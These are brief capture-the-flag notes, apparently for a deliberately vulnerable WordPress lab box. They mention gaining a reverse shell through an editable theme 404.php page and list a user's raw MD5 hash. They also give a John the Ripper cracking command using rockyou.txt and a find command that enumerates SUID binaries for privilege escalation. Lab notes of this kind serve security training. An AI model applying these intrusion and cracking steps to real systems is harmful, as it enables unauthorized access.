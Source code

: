 
### access to wp-admin/theme for reverse shell.
`http://10.10.242.242/wp-admin/theme/Twenty%20Fifteen.404.php`

robot:c3fcd3d76192e4007dfb496cca67e13b (raw-md5)

`john hash --wordlist=/usr/share/wordlists/rockyou.txt -format=raw-md5`

### print out any executables which have SUID bit set.

`find / -perm -u=s -type f 2>/dev/null`
